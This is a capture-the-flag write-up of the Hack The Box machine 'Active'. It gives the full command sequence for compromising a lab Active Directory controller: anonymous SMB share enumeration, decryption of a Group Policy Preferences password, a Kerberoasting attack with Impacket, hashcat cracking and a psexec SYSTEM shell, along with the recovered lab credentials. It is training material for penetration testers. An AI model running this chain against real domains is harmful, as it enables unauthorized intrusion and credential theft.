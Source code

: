 # Active

This is the write-up for the box Active that got retired at the 8th December 2018.
My IP address was 10.10.14.16 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.100    active.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/active.nmap 10.10.10.100
```

```markdown
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-08-16 08:49:20Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

These services can often be found on an **Active Directory** domain controller.

## Checking DNS (Port 53)

The hostname of the box could be interesting information:
```markdown
nslookup

server 10.10.10.100
Default server: 10.10.10.100
Address: 10.10.10.100#53

127.0.0.1
1.0.0.127.in-addr.arpa  name = localhost.

10.10.10.100
server can't find 100.10.10.10.in-addr.arpa: SERVFAIL
```

Unfortunately it does not give any information about the hostname.

## Checking SMB (Port 445)

It is possible to get the shares of SMB without authentication by using a anonymous authentication:
```markdown
smbclient -L //10.10.10.100
```

After pressing enter without entering a password, it displays the SMB shares:
```markdown
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share
Replication     Disk      
SYSVOL          Disk      Logon server share
Users           Disk
```

The tool **SMBmap** can also enumerate the permissions without authentication:
```markdown
smbmap -H 10.10.10.100
```
```markdown
Disk             Permissions     Comment
----             -----------     -------
ADMIN$           NO ACCESS       Remote Admin
C$               NO ACCESS       Default share
IPC$             NO ACCESS       Remote IPC
NETLOGON         NO ACCESS       Logon server share
Replication      READ ONLY
SYSVOL           NO ACCESS       Logon server share
Users            NO ACCESS
```

The share _Replication_ has a read-only access, so this should be investigated.
Displaying the contents of the share recursively:
```markdown
smbmap -H 10.10.10.100 -R Replication
```

There is a file called _Groups.xml_ in the directory _\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\_, which is a **Group Policy file** where local account information is stored.
```markdown
smbclient //10.10.10.100/Replication

smb: \> get \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml
```

Contents of _Groups.xml_:
```markdown
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

The username is _active.htb\SVC_TGS_ and the password is encrypted, but can be decrypted with **gpp-decrypt**:
```markdown
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

It shows that the decrpyted password is:
> GPPstillStandingStrong2k18

### Enumerating SMB with Authentication

Lets see which shares can be accessed with this user:
```markdown
smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.10.10.100
```
```markdown
Disk             Permissions     Comment
----             -----------     -------
ADMIN$           NO ACCESS       Remote Admin
C$               NO ACCESS       Default share
IPC$             NO ACCESS       Remote IPC
NETLOGON         READ ONLY       Logon server share
Replication      READ ONLY
SYSVOL           READ ONLY       Logon server share
Users            READ ONLY
```

The only interesting thing is _user.txt_ in the _Users_ share.

## Privilege Escalation

With the valid user in the domain, we can look for interesting information in the domain.
The scripts from the [Impacket Framework](https://github.com/SecureAuthCorp/impacket) will be helpful to do this.

For example getting user information on the box:
```markdown
GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.10.10.100
```
```markdown
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Administrator                                         2018-07-18 21:06:40.351723  2018-07-30 19:17:40.656520
Guest                                                 <never>              <never>             
krbtgt                                                2018-07-18 20:50:36.972031  <never>             
SVC_TGS                                               2018-07-18 22:14:38.402764  2018-07-21 16:01:30.320277
```

To get a foothold of the domain, the tool **Bloodhound** can map the connections between users and their permissions.
As the ingestor binary _Sharphound.exe_ from Bloodhound has to be run on the box, we need to connect to the domain via a Windows client:
```markdown
runas /netonly /user:active.htb\svc_tgs cmd
```

This starts a command shell as the user and allows us to run _Sharphound.exe_ on the domain:
```markdown
.\Sharphound.exe -c all -d active.htb --DomainController 10.10.10.100
```

> NOTE: Configure the DNS server on the interface to 10.10.10.100 or the connection will not work

After it finishes, it creates a _.zip_ file that can be drag&dropped into **Bloodhound** for further analysis.

When using the query called _"Shortest Path from Kerberoastable Users"_ it shows that the user _Administrator@active.htb_ is vulnerable to a **Kerberoast attack** which can be done with another script from the **Impacket Framework**:
```markdown
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS
```

This outputs the ticket hash for _Administrator_:
```markdown
$krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445\*$98484(...)
```

Now it has to be cracked and therefore I will use **Hashcat**:
```markdown
hashcat -m 13100 active.hash /usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password for _Administrator_ is:
> Ticketmaster1968

These credentials can now be used with _psexec_ to start a session on the box as _NT Authority\SYSTEM_!
```markdown
psexec.py active.htb/Administrator@10.10.10.100
```
